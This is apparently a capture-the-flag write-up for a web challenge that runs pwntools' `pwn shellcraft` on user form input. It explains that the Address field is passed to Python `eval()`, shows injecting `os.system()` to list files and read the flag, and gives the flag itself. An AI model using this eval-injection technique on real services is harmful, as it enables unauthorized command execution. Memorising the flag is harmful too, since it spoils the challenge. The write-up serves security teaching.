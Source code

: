 # Shellcode Generator [6]
Tags: Miscellaneous

_Under the nose of SieberrHealth, you spent about a month as an intern for the company, crafting an intentionally vulnerable web-service as a *backdoor* into SieberrHealth's systems._

_Walking out of your office for the last time, you cut across an empty street, slipping into quiet alleyway for the privacy you need._

_Pulling out a tablet, you access the vulnerable website, preparing to..._

_to..._

...

_A pop-up from your device spurs you from your stupor._

_The message reads:_

```
Thank you for working with us at SieberrHealth.
As part of our ongoing efforts to combat lapses in SieberrHealth Security, we are re-calibrating the memory module in your brain's Health360 Integral Chip to remove all memories related to your project: *Shellcode Generator*.
_Obscurity is Security!_
```

_Well, crap._

###### Author's Note: This is a misc challenge. If you find a web-based/pwn-based exploit for this challenge... feel free to flex :)

Hint 1 (2 points): A note on your device reads: pwnlib/commandline/shellcraft.py

## Solving
There's not a lot to see here.

Let's try submitting an empty form (i.e. `shellcode=&address=`):

![](website.png)

The website gives this in response:
```
Your shellcode: usage: pwn [-h] {asm,checksec,constgrep,cyclic,debug,disasm,disablenx,elfdiff,elfpatch,errno,hex,phd,pwnstrip,scramble,shellcraft,template,unhex,update,version} ...
Shellcode Assembly:usage: pwn [-h]
{asm,checksec,constgrep,cyclic,debug,disasm,disablenx,elfdiff,elfpatch,errno,hex,phd,pwnstrip,scramble,shellcraft,template,unhex,update,version}
...
```
This looks like the output from a command-line utility, and the [hint](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/commandline/shellcraft.py) corroborates with this. If you search for the `pwn` command hard enough, you'll figure out that the server is running the command `pwn shellcraft ...` for every request, with the command-line arguments determined by whatever's written in the form.

For example, if you submit a form like this (`shellcode=amd64.crash&address=`):
![](test.png)
The webpage will return this:
```asm
Your shellcode: 5f5e5d5b5b5a59584831e4ffe4
Shellcode Assembly: /* fill all registers with shit */
pop rdi
pop rsi
pop rbp
pop rbx /* add rsp, 8 */
pop rbx
pop rdx
pop rcx
pop rax
xor rsp, rsp /* especially esp */
jmp rsp /* boom */
```
Which corresponds with what you'd get by running this command on a terminal:
```asm
$ pwn shellcraft -f p amd64.crash
    /* fill all registers with shit */
    pop rdi
    pop rsi
    pop rbp
    pop rbx /* add rsp, 8 */
    pop rbx
    pop rdx
    pop rcx
    pop rax
    xor rsp, rsp /* especially esp */
    jmp rsp /* boom */
```
With knowledge of what the server does in the backend, we need to figure out how to exploit it.

## `eval()`
There are 4 arguments available for input: `"shellcode identifier"` (`shellcode`), `"Avoid newlines:"` (`newline`), `"Avoid NULL bytes:"` (`nuls`), and `"Address"` (`address`).

By means of fuzzing/reading-source-code, you're supposed to eventually notice that `address` is [parsed by `eval()`](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/commandline/shellcraft.py#L296-L298) within the source code for pwntools:
```python
    vma = args.address
    if vma:
        vma = eval(vma)
```
This means that it is possible to execute arbitary python code via the `address` input field, provided that `pwn shellcraft ...` doesn't crash before getting to the part where `address` is evaluated.

There are a lot of things you can do with this bug, but the simplest thing to do is to simply inject commands by calling `os.system()`:

![](inject.png)

The resulting webpage response will look like this:
```
Your shellcode: total 64 drwxr-x--- 1 root ctf 4096 Jan 4 08:48 . drwxr-xr-x 1 root root 4096 Jan 3 14:30 .. -rwxr-x--- 1 root ctf 220 Feb 25 2020 .bash_logout -rwxr-x--- 1 root ctf 3771 Feb 25 2020 .bashrc -rwxr-x--- 1 root ctf 807 Feb 25 2020 .profile drwxr-x--- 1 root ctf 20480 Jan 3 14:30 bin drwxr-x--- 1 root ctf 4096 Jan 3 14:30 dev -rwxr----- 1 root ctf 40 Jan 3 13:46 flag lrwxrwxrwx 1 root ctf 7 Jan 3 14:30 lib -> usr/lib lrwxrwxrwx 1 root ctf 9 Jan 3 14:30 lib32 -> usr/lib32 lrwxrwxrwx 1 root ctf 9 Jan 3 14:30 lib64 -> usr/lib64 lrwxrwxrwx 1 root ctf 10 Jan 3 14:30 libx32 -> usr/libx32 -rwxr-x--- 1 root ctf 955 Jan 4 08:39 main.py drwxr-x--- 1 root ctf 4096 Jan 4 08:48 static drwxr-x--- 1 root ctf 4096 Jan 4 08:48 templates drwxr-x--- 1 root ctf 4096 Jan 3 14:30 usr 5f5e5d5b5b5a59584831e4ffe4
Shellcode Assembly: /* fill all registers with shit */
...
```
All you need to do is to replace `ls -la` in the image with `cat flag` to finish the challenge.

## Flag
`IRS{CVE-2021-PWN_ba03ba78310bcdfe18902}`